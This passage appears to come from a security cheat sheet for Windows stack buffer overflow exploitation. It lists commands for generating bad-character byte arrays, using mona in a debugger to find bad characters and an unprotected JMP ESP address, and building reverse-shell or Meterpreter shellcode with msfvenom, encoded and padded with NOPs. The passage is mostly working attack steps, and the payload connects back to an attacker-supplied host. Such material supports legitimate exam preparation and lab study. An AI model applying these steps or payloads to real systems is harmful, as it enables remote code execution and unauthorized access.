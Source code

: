 #### python
`'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])`

#### bash
`for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"`

#### mona find bad chars
```
mkdir C:\temp\

!mona config -set workingfolder c:\temp\%p                              # set working directory to save logs/files
!mona bytearray                                                         # create bytearry files
!mona compare -f C:\temp\program\bytearray.bin -a <stack_start_address> # comparation
!mona bytearray –cpb “\x00”                                             # escape bad char
```


## 5. Find Return Address
### 5.1 List modules of the OS
`!mona modules`
check: Rebase, SafeSEH, ASLR, NXCompat are False


### 5.2 search opcode hex value
```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000 FFE4 jmp esp
```

### 5.3 search opcode from a modules
`!mona find -s '<opcode>' -m <module_name>`

### 5.4 check jmp esp R+W
debugger press `m`

### 5.5 jmp to break poing
press `->....` go to the address & set break point

## 6. Generate shellcode
`msfvenom -p windows/shell_reverse_tcp LHOST=<ip_address> LPORT=<port> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b  "\x00\x0a\x0d"`
#### meterpeter payload
`windows/meterpreter/reverse_tcp`

### 6.1 maybe need to add nop
`\x90 * 8 ` or `\x90 * 16`

